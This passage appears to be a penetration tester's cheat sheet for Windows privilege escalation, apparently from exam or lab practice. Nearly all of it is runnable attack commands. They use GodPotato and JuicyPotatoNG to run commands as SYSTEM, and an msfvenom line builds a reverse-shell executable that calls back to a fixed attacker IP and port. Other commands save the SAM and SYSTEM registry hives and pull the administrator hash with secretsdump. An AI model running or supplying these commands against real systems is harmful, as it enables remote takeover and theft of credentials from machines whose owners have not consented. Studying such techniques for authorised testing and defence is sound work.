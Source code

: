 #### Check .NET Environment
[God Potato](https://github.com/BeichenDream/GodPotato/releases?source=post_page-----d42c9c1e7f9e---------------------------------------) 
```
cd reg query "HKLM\Software\Microsoft\Net Framework Setup\NDP" /s
```

or 

```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse
```

Transfer GodPotato to target and test with 'whoami'
```
.\GodPotato-NET4.exe -cmd "whoami"
```

Create an msfvenom rev shell payload 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=9002 -f exe > rev2.exe
```

Execute this payload with GodPotato 
```
.\GodPotato-NET4.exe -cmd "c:\users\tony\rev2.exe"
```

[JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)
```
.\jp.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > C:\juicy.txt"
```
### SeBackupPrivilege

#### reg save sam and system archives

```
reg save HKLM\SAM SAM
```

```
reg save HKLM\SYSTEM SYSTEM
```

Transfer these files to Kali box and run secretsdump.py to extract administrator hash
##### secretsdump.py
```
secretsdump.py local -sam sam -system system
```

#### robocopy ntds.dit

## Unquoted Service Paths 

Detection in PowerShell
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
